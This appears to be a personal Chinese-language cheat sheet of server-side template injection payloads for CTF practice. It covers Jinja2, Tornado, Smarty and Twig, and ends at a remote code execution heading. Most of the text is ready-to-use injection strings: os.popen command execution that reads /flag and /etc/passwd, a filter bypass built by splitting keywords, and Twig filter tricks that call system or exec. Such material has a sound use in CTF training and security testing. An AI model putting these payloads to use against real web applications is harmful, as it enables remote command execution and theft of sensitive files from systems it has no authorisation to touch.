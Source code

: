 # SSTI（服务端模板注入）

## python的jinja2

漏洞成因：使用了不安全的`render_template_string()`函数动态拼接字符串到html中

核心：利用`os`模块的`popen()`命令执行

先看`{{config}}`确定是jinja2，如果被过滤，就：

```
{{ url_for.__globals__['current_app'].config }}
```

url_for是基本都会提前加载好的，因此可以：

```
{{ url_for.__globals__['os'].popen('cat /flag').read() }}
```

最常规最通用，是通过空列表，元组或字符串溯源到祖宗Object类，然后找它的子类`warnings.catch_warnings`然后找`__init__['globals'].__builtins__`。`__builtins__`中包含了 Python 的所有**内置函数和异常**。接下来最常用就是利用`__import__`导入`os`模块，利用`os.popen`执行命令了，因此一个标准的payload可能如下：

```
?search={{().__class__.__bases__[0].__subclasses__()[59].__init__['__glo'+'bals__'].__builtins__['__import__']('os').popen('cat /etc/passwd').read()}}
```

如果关键字被过滤就可以如上进行拼接

还有各种绕过就不写，记不住，具体可以看之前总结的payload

## python的tornado

找`{{handler.settings}}`

## PHP的smarty

```
{$smarty.version}
{system('cat index.php')} 
```

## PHP的TWIG

```
{{['cat /etc/passwd']|filter('system')}}

{{'/etc/passwd'|file_excerpt(1,30)}}

{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("whoami")}}
```

# 远程代码执行
